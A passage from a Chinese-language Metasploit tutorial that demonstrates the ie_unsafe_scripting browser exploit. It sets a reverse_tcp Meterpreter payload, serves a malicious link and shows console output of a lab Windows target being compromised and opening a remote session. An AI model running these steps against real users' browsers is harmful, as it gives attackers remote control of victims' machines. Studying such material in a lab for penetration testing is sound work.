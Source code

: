 ```
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
msf exploit(ie_unsafe_scripting) > set LHOST 192.168.56.101
LHOST => 192.168.56.101 
```

现在我们的利用程序和有效载荷已经被设置为活动状态。正如你所看到的，我们在这里没有使用 RHOST 选项，因为这是一个基于客户端的攻击。让我们看看当我们执行`exploit`命令时会发生什么：

```
msf exploit(ie_unsafe_scripting) > exploit
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.56.101:4444
[*] Using URL: http://0.0.0.0:8080/2IGIaOJQB
[*] Local IP: http://192.168.56.101:8080/2IGIaOJQB
[*] Server started. 
```

正如我们所看到的，`exploit`命令的结果生成了一个链接。这是我们将不得不发送给我们的目标的恶意链接（`http://192.168.56.101:8080/2IGIaoJQB`），以便它可以利用他们的浏览器。最后一行还说“服务器已启动”，实际上是在端口 4444 上监听来自目标机器的连接。让我们首先分析链接在 Windows XP 目标机器上的执行结果。

浏览器将尝试加载页面，但最终不会显示任何内容。相反，浏览器要么会挂起，要么会保持空闲状态。但你会注意到你的 msfconsole 上有一些活动。这个活动将类似于以下命令行中显示的活动：

```
msf exploit(ie_unsafe_scripting) > [*] Request received from 192.168.56.102:1080...
[*] Encoding payload into vbs/javascript/html...
[*] Sending exploit html/javascript to 192.168.56.102:1080...
[*] Exe will be uunqgEBHE.exe and must be manually removed from the %TEMP% directory on the target.
Sending stage (752128 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.102:1081) at 2011-11-12 21:09:26 +0530 
```

太棒了！我们与目标机器有一个活动会话。前面的命令行输出显示，在我们的目标的`temp`文件夹中创建了一个可执行文件，这个文件负责整个利用过程。

让我们现在分析这个恶意链接在运行 IE 8 的 Windows 7 机器上的执行结果。

我们将注意到 Internet Explorer 会提示一个警报消息。点击**允许**后，外部脚本将被执行，浏览器可能会崩溃或挂起（取决于系统）。

![如何做...](img/7423_04_02.jpg)
